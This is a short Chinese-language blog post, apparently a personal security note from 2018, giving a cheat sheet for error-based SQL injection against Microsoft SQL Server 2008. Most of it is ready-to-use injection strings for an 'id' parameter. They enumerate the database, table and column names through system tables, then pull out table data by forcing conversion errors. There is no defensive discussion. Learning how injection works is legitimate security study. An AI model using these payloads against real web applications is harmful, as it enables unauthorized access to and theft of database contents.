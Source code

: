 ```yaml
---
title: "MSSQL 显错注入"
date: 2018-01-15T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mssql','sqli']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


MSSQL 显错注入

<!--more-->

听说 mssql 不同版本的注入语句不同 这里的版本是 mssql 2008.

`db_name() 当前数据库`

`user 当前用户`

`@@version 版本`


**爆库语句**

`id=1 and (select name from master.dbo.sysdatabases where dbid=1)>0`

master.dbo.sysdatabases == master..sysdatabases

**爆表语句**

`id=1 and (select top 1 cast(name as varchar(100))%2b'^'%2bcast(id as varchar(100)) from 数据库.dbo.sysobjects where xtype='U')>0`

**暴列语句**

`id=1 and (select top 1 name from 数据库.dbo.syscolumns where id=id)>0`

**爆数据语句**

`id=1 and (select top 1 cast(列名1 as varchar(100))%2b'^'%2bcast(列名2 as varchar(100)) from 数据库.dbo.表名)>0`

同数据库的话可以直接 from 表名.